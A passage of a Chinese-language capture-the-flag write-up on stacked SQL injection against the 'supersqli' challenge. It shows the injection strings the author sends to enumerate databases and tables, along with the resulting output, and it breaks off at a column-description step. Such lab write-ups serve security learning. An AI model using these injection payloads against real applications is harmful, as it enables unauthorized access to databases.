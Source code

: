 尝试一下堆叠注入吧。

`?inject=-1';show databases--+`让他显示出所有的数据库，哇塞，真的显示出来了。得到数据库`ctftraining`、`information_schema`、`mysql`、`performance_schema`、`supersqli`、`test`

```
array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
}

```

这就比较棒了，

`?inject=--1';show tables;--+`查看一下当前数据库中的表，

```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}

```
有一串数字很可疑，我们看一下他的字段。
	?inject=--1';desc `1919810931114514`;-+
